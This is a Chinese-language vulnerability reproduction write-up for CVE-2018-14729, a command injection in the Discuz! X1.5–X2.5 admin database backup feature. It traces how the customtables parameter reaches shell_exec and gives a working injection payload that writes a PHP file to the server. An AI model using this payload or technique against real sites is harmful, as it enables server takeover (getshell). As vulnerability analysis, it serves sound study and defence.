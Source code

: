 ```yaml
---
title: （CVE-2018-14729）Discuz! X1.5 ~ X2.5 后台数据库备份功能远程命令执行 Getshell
id: zhfly2883
---
```


# （CVE-2018-14729）Discuz!X 1.5 ~ X2.5 后台数据库备份功能远程命令执行 Getshell

## 一、漏洞简介

## 二、漏洞影响

Discuz! X1.5-2.5

## 三、复现过程

### 漏洞分析

需要注意的是这个漏洞其实是需要登录后台的，并且能有数据库备份权限，所以比较鸡肋。

我这边是用Discuz! 2.5完成漏洞复现的，并用此进行漏洞分析的。

漏洞点在：

```
source/admincp/admincp_db.php 
```

第296行：

```
@shell_exec($mysqlbin.'mysqldump --force --quick '.($db->version() > '4.1' ? '--skip-opt --create-options' : '-all').' --add-drop-table'.($_GET['extendins'] == 1 ? ' --extended-insert' : '').''.($db->version() > '4.1' && $_GET['sqlcompat'] == 'MYSQL40' ? ' --compatible=mysql40' : '').' --host="'.$dbhost.($dbport ? (is_numeric($dbport) ? ' --port='.$dbport : ' --socket="'.$dbport.'"') : '').'" --user="'.$dbuser.'" --password="'.$dbpw.'" "'.$dbname.'" '.$tablesstr.' > '.$dumpfile); 
```

在shell_exec()函数中可控点在$tablesstr，向上看到第281行：

```
$tablesstr = '';
foreach($tables as $table) {
    $tablesstr .= '"'.$table.'" ';
} 
```

跟一下$table的获取流程，在上面的第143行：

```
if($_GET['type'] == 'discuz' || $_GET['type'] == 'discuz_uc') 
{
    $tables = arraykeys2(fetchtablelist($tablepre), 'Name');
} 
elseif($_GET['type'] == 'custom') 
{
    $tables = array();
    if(empty($_GET['setup'])) 
    {
        $tables = C::t('common_setting')->fetch('custombackup', true);
    } 
    else 
    {
        C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
        $tables = & $_GET['customtables'];
    }
    if( !is_array($tables) || empty($tables)) 
    {
        cpmsg('database_export_custom_invalid', '', 'error');
    }
} 
```

可以看到：

```
C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
$tables = & $_GET['customtables']; 
```

首先会从$_GET的数组中获取customtables字段的内容，判断内容是否为空，不为空则将从外部获取到的customtables字段内容写入common_setting表的skey=custombackup的svalue字段，写入过程中会将这个字段做序列化存储：

![image](../img/5620df6d067f655350f8ab3329a0c0a7.png)

之后再将该值赋给$tables。

至此可以看到漏洞产生的原因是由于shell_exec()中的$tablesstr可控，导致代码注入。

### 漏洞复现

首先抓个包

![image](../img/8888ba7d15cb455769918c07dc18bf48.png)

这样可以抓到符合我们条件的请求包。

![image](../img/1a7864c17bfac25a00c570d7f745248d.png)

接下来只需要将customtables的内容更改一下就可以造成命令执行了：

```
customtables[] = pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php # 
```

![image](../img/817d45781aa8982ee79782a77cacd93b.png)

![image](../img/3686b0c1bcfe6a1d2ef3bef0643230d5.png)

效果为：

![image](../img/a0a2ba745b07981d660e1fad06fa2d4e.png)

## 参考链接

> https://github.com/FoolMitAh/CVE-2018-14729/blob/master/Discuz_backend_getshell.md

> https://www.anquanke.com/post/id/158270